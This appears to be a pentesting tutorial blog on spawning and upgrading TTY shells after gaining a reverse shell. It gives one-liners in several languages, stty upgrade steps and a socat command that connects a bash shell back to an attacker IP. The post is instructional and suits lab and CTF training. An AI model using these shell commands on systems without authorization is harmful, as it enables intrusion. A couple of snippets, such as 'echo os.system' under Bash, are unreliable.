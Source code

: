 In penetration testing and ethical hacking, gaining a **reverse shell** or **command execution** is only half the battle. Often, you’ll be dropped into a limited shell environment – one that lacks full terminal capabilities (like arrow keys, tab completion, job control, etc.). This is where **spawning a proper TTY shell** becomes critical.

In this blog, we'll explore different ways to spawn TTY shells using various languages and tools, explain **why** you'd want to do this, and walk through **how** it works.


## What is a TTY?

**TTY (teletypewriter)** refers to a terminal interface. In modern systems, it represents a **fully interactive shell** that supports:

- Command editing (arrow keys)
- Autocompletion (TAB)
- Signal handling (Ctrl+C, Ctrl+Z)
- Job control (backgrounding with `&`, bringing jobs to foreground with `fg`)

When you get a reverse shell (from a target machine to your listener), you often get a **non-interactive shell**. It’s very basic – you can run commands, but that’s it. Spawning a TTY shell means upgrading to something interactive.

## How to Spawn a TTY Shell

Let’s look at various methods to do this. These are useful if you have command execution access or a basic reverse shell.

### Python

**If Python is available on the target:**

```
python -c 'import pty; pty.spawn("/bin/sh")'
```
OR
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

**Explanation:**
- `pty.spawn()` opens a pseudo-terminal.
- This gives you an interactive shell, much closer to a real terminal experience.

### Bash
```
/bin/sh -i
```
OR
```
echo os.system('/bin/bash')
```

**Explanation:**
- `-i` stands for interactive mode.
- This is one of the simplest and most reliable ways if bash/sh is installed.

### Perl
```
perl -e 'exec "/bin/sh";'
```
OR
```
perl: exec "/bin/sh";
```

**Explanation:**
- Executes a new shell using Perl.
- Works well on older systems where Perl is still commonly available.

### Ruby

```
ruby -e 'exec "/bin/sh"'
```

**Explanation:**
- Similar to Perl, spawns a new interactive shell.
- Not as commonly installed on servers, but useful when available.

### Lua

```
lua -e "os.execute('/bin/sh')"
```

**Explanation:**
- Lua is lightweight, but often not installed by default.
- Executes a shell using the system call.

### IRB (Interactive Ruby Shell)

```
exec "/bin/sh"
```

**Explanation:**
- If you’re in an IRB shell, this command spawns a new shell.


### Inside vi or vim
```
:!bash
```
OR
```
:set shell=/bin/bash
:shell
```

**Explanation:**
- If you can run `vi` or `vim` on the system, you can drop to shell using `:!bash`.
- You can also set the shell explicitly and invoke it.

### Nmap ≤ 5.21 (Old Interactive Mode)

```
nmap --interactive
!sh
```

**Explanation:**
- Older versions of nmap had an interactive mode allowing shell escapes.
- Rare today, but a goldmine if you find it.


### Socat (for Reverse Shells)
**Listener (on Attacker machine):**
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

**Victim:**

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<attacker-ip>:4444
```

**Explanation:**
- `socat` is a powerful bidirectional data relay.
- The above configuration spawns a fully interactive TTY shell.

## STTY for Shell Upgrading

After spawning a shell, you still may lack full terminal features. Here's how to **upgrade** the shell from your listener (e.g., netcat) on Kali:
### Step-by-step:

-  **Get shell and press Ctrl+Z**
	- Backgrounds the session and brings you back to Kali terminal.
- **Run this on Kali:** ``
```
stty raw -echo;fg
```
- **Then press ENTER**
- **On target (reverse shell), run:**
```
export SHELL=bash
export TERM=xterm-256color
reset
```

**Explanation:**
- `stty raw -echo` prepares your terminal to properly interact with raw shell.
- `fg` resumes the shell.
- `reset` reinitializes terminal.
- `export` commands restore coloring and full terminal behavior.

## Restricted Shells (rbash, sh -r, etc.)

Sometimes you encounter restricted shells that limit access. Here's a list of such shells and what they do:

| Command             | Description                                                    |
| ------------------- | -------------------------------------------------------------- |
| `bash -r` / `rbash` | Restricted bash – can't change directory, use certain commands |
| `sh -r`             | Restricted sh shell                                            |
| `rksh`              | Restricted Korn shell                                          |
| `ksh -r`            | Korn shell in restricted mode                                  |
| `rsh`               | Remote shell (not necessarily restricted, but legacy)          |

### Final Thoughts

Gaining initial shell access on a target system is an important milestone, but it's far from the end of your journey during a penetration test. To gain meaningful control and perform deeper post-exploitation activities, it’s essential to upgrade that limited shell into a fully interactive terminal. Doing so not only improves your ability to execute commands reliably, but also enables features like tab completion, signal handling, and job control—tools that can make a significant difference in your workflow. More importantly, a proper terminal environment often lays the groundwork for privilege escalation and lateral movement. Mastering the techniques for spawning and upgrading TTY shells is a vital skill for any ethical hacker aiming to work efficiently and effectively during real-world engagements.

**As always, these techniques must be used responsibly and only within authorized environments. Whether you’re participating in Capture the Flag (CTF) challenges, training labs like TryHackMe or HackTheBox, or conducting a legal penetration test, always ensure you have explicit permission to operate on the systems in question.**

